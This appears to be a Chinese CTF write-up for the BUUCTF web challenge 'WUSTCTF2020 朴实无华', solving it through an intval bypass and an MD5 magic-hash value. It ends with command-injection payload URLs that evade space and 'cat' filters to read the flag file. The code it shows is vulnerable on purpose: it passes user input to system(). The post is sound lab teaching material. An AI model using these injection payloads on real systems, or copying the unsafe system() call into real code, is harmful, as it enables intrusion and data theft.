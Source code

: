 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2023-01-02 19:04 +0800
categories: [CTF,WEB]
tags: [web,buuctf]
media_subpath: /assets
---
```


第一层：robots.txt

```txt
User-agent: *
Disallow: /fAke_f1agggg.php
```

第二层：header头

![image-20230102190519868](image-20230102190519868.png)



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

level 1

```php
(intval($num) < 2020 && intval($num + 1) > 2021)
```

intval获取变量对的整数值，这里有两种方法都可以

```php
<?php
$a = '1e11';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);

$a = '0x9999';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);
```

level 2

```
$md5=$_GET['md5'];
if ($md5==md5($md5))
```

md5加密前后都相等，这里参考网上的脚本和答案

```python
import hashlib
i = 0
while True:
    text = '0e{}'.format(i)
    m = hashlib.md5(text.encode()).hexdigest()
    if m[0:2] == '0e' :
        if m[2:].isdigit():
            print(text,m)
            break
    i +=1
# 0e215962017
```

level 3

```php
if(!strstr($get_flag," ")){
	$get_flag = str_ireplace("cat", "wctf2020", $get_flag);
	system($get_flag);
```

(!strstr($get_flag," "))

匹配到空格为FALSE，不能有空格

$IFS 在执行 `ls$IFS/` 是可以的，到后面执行读取命令时，不知道为什么失效



str_ireplace("cat", "wctf2020", $get_flag);

cat 替换成 wctf2020，执行的命令最好不要出现 cat，当然这里可以绕过

?num=0x9999&md5=0e215962017&get_flag=c\a\t%09fll*

?num=0x9999&md5=0e215962017&get_flag=tac%09fll*

![image-20230102185754850](image-20230102185754850.png)

![image-20230102190212349](image-20230102190212349.png)